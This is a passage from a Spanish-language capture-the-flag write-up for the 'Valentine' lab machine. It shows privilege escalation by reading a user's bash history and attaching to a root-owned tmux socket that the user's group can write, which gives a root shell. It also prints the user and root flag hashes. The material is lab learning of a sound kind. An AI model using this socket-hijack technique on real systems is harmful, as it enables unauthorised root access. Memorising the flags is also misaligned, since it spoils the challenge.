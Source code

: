 ```
e6710a5464769fd5fcd216e076961750
```

## Fase de Escalación de Privilegios

Revisamos el historial del usuario y vemos que utiliza tmux

```console
hype@Valentine:~$ cat .bash_history 
```

```
exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
```

Y como vemos que el socket creado por tmux es el propietario root

```console
hype@Valentine:~$ ls -lha /.devs/dev_sess
```

```
srw-rw---- 1 root hype 0 Aug 29 20:46 /.devs/dev_sess
```

ingresamos nuevamente al socket

```console
tmux -S /.devs/dev_sess
```

y nos encontramos como root as'i que podemos revisar la flag de root

```console
root@Valentine:/home/hype# cat /root/root.txt
```

```
f1bb6d759df1f272914ebbc9ed7765b2
```

## Estructura del directorio

```
Valentine
```


